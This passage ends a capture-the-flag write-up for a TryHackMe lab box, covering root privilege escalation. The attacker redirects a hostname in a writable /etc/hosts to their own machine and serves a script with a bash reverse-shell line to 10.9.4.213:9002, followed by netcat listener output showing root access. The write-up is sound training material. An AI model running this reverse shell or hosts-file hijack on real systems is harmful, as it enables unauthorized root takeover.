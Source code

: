 Unfortunately, we don't have write permission on that file.

But we see here that it's using a hostname `mkingdom.thm`. If we check the /etc/hosts file we see that we have write permissions on.

```terminal
mario@mkingdom:~$ ls -l /etc/hosts
-rw-rw-r-- 1 root mario 343 Sep 28 13:17 /etc/hosts
```

Let's edit the file and make the mkingdom.thm hostname point to our machine.

```terminal
mario@mkingdom:~$ cat /etc/hosts
127.0.0.1       localhost
10.9.4.213 mkingdom.thm
127.0.0.1       backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org
```

Now on our machine, we create the necessary folders:

```bash
mkdir -p app/castle/application
```

then we create the counter.sh that sends us a rev shell.

```bash
echo 'bash -i >& /dev/tcp/10.9.4.213/9002 0>&1' > app/castle/application/counter.sh
```

And now we setup a web server on port 85 using python

```bash
sudo python3 -m http.server 85
```

Now we if check our listener we can see the root shell.

```terminal
┌─[]─[10.9.4.213]─[sirius@parrot]─[~/ctf/thm/kingdom]
└──╼ [★]$ nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.9.4.213] from (UNKNOWN) [10.10.121.152] 47602
bash: cannot set terminal process group (3497): Inappropriate ioctl for device
bash: no job control in this shell
root@mkingdom:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References

<https://vulners.com/hackerone/H1:768322>

<https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php>

